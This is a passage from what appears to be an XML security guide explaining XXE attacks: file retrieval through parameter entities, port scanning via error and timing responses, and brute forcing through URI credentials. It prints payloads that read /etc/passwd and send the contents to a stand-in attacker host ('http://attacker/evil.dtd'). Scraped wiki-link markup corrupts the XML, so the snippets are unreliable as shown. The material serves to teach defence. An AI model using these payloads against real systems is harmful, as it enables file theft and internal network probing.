 ###### File Retrieval with Parameter Entities¶
Parameter entities allows for the retrieval of content using [[_content/dictionary#U|URL]] references. Consider the following malicious [[_content/dictionary#X|XML]] document:
<?xml version="1.0" encoding="utf-8"?>
<![[_content/dictionary#D|DOCTYPE]] root [
 <![[_content/dictionary#E|ENTITY]] % file [[_content/dictionary#S|SYSTEM]] "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://attacker/evil.dtd">
 %dtd;
]>
<root>&send;</root>

Here the [[_content/dictionary#D|DTD]] defines two external parameter entities: file loads a local file, and dtd which loads a remote DTD. The remote DTD should contain something like this:
<?xml version="1.0" encoding="[[_content/dictionary#U|UTF]]-8"?>
<![[_content/dictionary#E|ENTITY]] % all "<!ENTITY send [[_content/dictionary#S|SYSTEM]] 'http://example.com/?%file;'>">
%all;

The second [[_content/dictionary#D|DTD]] causes the system to send the contents of the file back to the attacker's server as a parameter of the [[_content/dictionary#U|URL]].
###### Port Scanning¶
The amount and type of information generated by port scanning will depend on the type of implementation. Responses can be classified as follows, ranking from easy to complex:
1) Complete Disclosure: This is the simplest and most unusual scenario, with complete disclosure you can clearly see what's going on by receiving the complete responses from the server being queried. You have an exact representation of what happened when connecting to the remote host.
2) Error-based: If you are unable to see the response from the remote server, you may be able to use the information generated by the error response. Consider a web service leaking details on what went wrong in the [[_content/dictionary#S|SOAP]] Fault element when trying to establish a connection:
java.io.IOException: Server returned [[_content/dictionary#H|HTTP]] response code: 401 for URL: http://192.168.1.1:80
 at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1459)
 at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:674)

3) Timeout-based: The scanner could generate timeouts when it connects to open or closed ports depending on the schema and the underlying implementation. If the timeouts occur while you are trying to connect to a closed port (which may take one minute), the time of response when connected to a valid port will be very quick (one second, for example). The differences between open and closed ports becomes quite clear.
4) Time-based: Sometimes it may be difficult to tell the differences between closed and open ports because the results are very subtle. The only way to know the status of a port with certainty would be to take multiple measurements of the time required to reach each host, then you should analyze the average time for each port to determinate the status of each port. This type of attack will be difficult to accomplish if it is performed in higher latency networks.
###### Brute Forcing¶
Once an attacker confirms that it is possible to perform a port scan, performing a brute force attack is a matter of embedding the username and password as part of the [[_content/dictionary#U|URI]] scheme (http, ftp, etc). For example, see the following example:
<![[_content/dictionary#D|DOCTYPE]] root [
 <![[_content/dictionary#E|ENTITY]] user [[_content/dictionary#S|SYSTEM]] "http://username:password@example.com:8080">
]>
<root>&user;</root>